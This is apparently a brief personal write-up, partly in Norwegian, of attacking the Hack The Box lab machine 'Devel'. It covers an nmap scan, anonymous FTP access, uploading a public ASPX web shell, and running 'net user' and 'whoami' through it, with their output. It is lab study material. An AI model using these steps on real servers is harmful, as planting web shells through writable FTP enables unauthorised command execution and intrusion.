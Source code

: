 # devel 10.10.10.5

windows maskin

`oot@kali:~# nmap -sS -P0 10.10.10.5`

`Starting Nmap 7.40 ( https://nmap.org ) at 2017-05-26 09:47 EDT`

`Nmap scan report for 10.10.10.5`

`Host is up (0.061s latency).`

`Not shown: 998 filtered ports`

`PORT   STATE SERVICE`

`21/tcp open  ftp`

`80/tcp open  http`

logget inn ftp med anonymous. masse filer. last ned alt med `mget * .` og login med -i som fjerner prompts

http kjører iis7

laster opp et aspx shell https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd.aspx

[http://10.10.10.5](http://10.10.10.5/myshell.aspx)/sh.aspx

kan her kjøre kommandoer. /c net user

User accounts for \

Administrator            babis                    Guest

The command completed with one or more errors.

/c whoami

iis apppool\web

